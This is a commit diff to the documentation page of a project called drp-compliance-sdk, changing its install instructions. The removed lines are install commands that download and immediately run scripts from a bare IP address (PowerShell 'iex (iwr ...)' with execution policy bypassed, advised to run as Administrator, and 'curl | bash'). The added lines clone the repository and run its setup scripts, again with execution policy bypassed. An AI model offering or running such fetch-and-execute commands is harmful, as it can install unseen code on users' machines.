

Before and after one commit to TommyP949/drp-compliance-sdk, a website: page docs/index.html in a window 1280 px wide. Shown: the part 1213-2050 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
setup: switch to git-based distribution for reliability

```diff
--- a/docs/index.html
+++ b/docs/index.html
@@ -155,12 +155,8 @@ footer .footer-links{display:flex;justify-content:center;gap:1.5rem;margin-botto
     <a class="btn btn-secondary" href="#api">API Reference</a>
   </div>
   <div class="install-strip">
-    <div class="install-tabs">
-      <button class="install-tab active" onclick="setOs('win',this)">Windows</button>
-      <button class="install-tab" onclick="setOs('mac',this)">macOS / Linux</button>
-    </div>
     <div class="install-body">
-      <code id="install-cmd">powershell -ExecutionPolicy Bypass -Command "iex (iwr -useb http://68.183.248.32/agent-demo/install.ps1)"</code>
+      <code id="install-cmd">git clone https://github.com/TommyP949/drp-compliance-sdk</code>
       <button class="copy-btn" onclick="copyInstall()">COPY</button>
     </div>
   </div>
@@ -219,19 +215,22 @@ footer .footer-links{display:flex;justify-content:center;gap:1.5rem;margin-botto
         <div class="dot" style="background:#ff5f57"></div>
         <div class="dot" style="background:#febc2e"></div>
         <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">Windows — PowerShell (no Node.js required)</span>
+        <span class="qs-card-title">Windows</span>
       </div>
-      <pre><span class="c"># Run as Administrator for best results</span>
-powershell -ExecutionPolicy Bypass -Command <span class="s">"iex (iwr -useb http://68.183.248.32/agent-demo/install.ps1)"</span></pre>
+      <pre>git clone https://github.com/TommyP949/drp-compliance-sdk
+cd drp-compliance-sdk
+powershell -ExecutionPolicy Bypass -File setup.ps1</pre>
     </div>
     <div class="qs-card">
       <div class="qs-card-head">
         <div class="dot" style="background:#ff5f57"></div>
         <div class="dot" style="background:#febc2e"></div>
         <div class="dot" style="background:#28c840"></div>
-        <span class="qs-card-title">macOS / Linux — bash</span>
+        <span class="qs-card-title">macOS / Linux</span>
       </div>
-      <pre>curl -fsSL http://68.183.248.32/agent-demo/install.sh | bash</pre>
+      <pre>git clone https://github.com/TommyP949/drp-compliance-sdk
+cd drp-compliance-sdk
+bash setup.sh</pre>
     </div>
   </div>
 
```
Also changed, not shown: README.md, 3 other files.
